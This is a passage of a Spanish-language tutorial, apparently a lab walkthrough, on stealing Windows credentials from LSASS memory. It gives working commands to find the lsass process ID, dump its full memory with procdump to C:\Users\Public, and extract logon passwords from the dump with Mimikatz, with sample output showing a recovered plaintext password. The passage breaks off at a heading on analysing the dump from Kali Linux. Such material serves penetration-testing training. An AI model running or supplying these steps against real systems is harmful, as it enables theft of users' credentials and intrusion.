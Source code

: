 ```cmd
tasklist | findstr lsass
```

📌 Ejemplo de salida:

```
lsass.exe                 644 Services                   0     8,240 K
```

> El número `644` es el **PID** (puede variar).

---

#### Paso 2: Crear el volcado con `procdump`

Ejecuta:

```cmd
procdump -accepteula -ma 644 C:\Users\Public\lsass.dmp
```

🔍 Detalle de parámetros:

- `-accepteula`: Acepta automáticamente la licencia.
- `-ma`: Crea un volcado completo (Full Dump).
- `644`: Es el PID de `lsass.exe`.
- `C:\Users\Public\lsass.dmp`: Ruta donde se guarda el archivo.

✅ Esto genera un volcado con toda la memoria de LSASS.

---

### 🧪 Análisis del volcado (desde Kali o en la misma VM)

Puedes analizar el volcado de 2 formas:

---

#### 🧩 OPCIÓN 1: Usar Mimikatz en la misma máquina

1. Abre `mimikatz.exe` como administrador.

2. Ejecuta:

```mimikatz
sekurlsa::minidump C:\Users\Public\lsass.dmp
sekurlsa::logonpasswords
```

✅ Verás las credenciales que estaban activas en memoria:

```
Username : admin
Domain   : DESKTOP-123
Password : Contraseña123
```

---

#### 🧩 OPCIÓN 2: Analizar desde Kali Linux
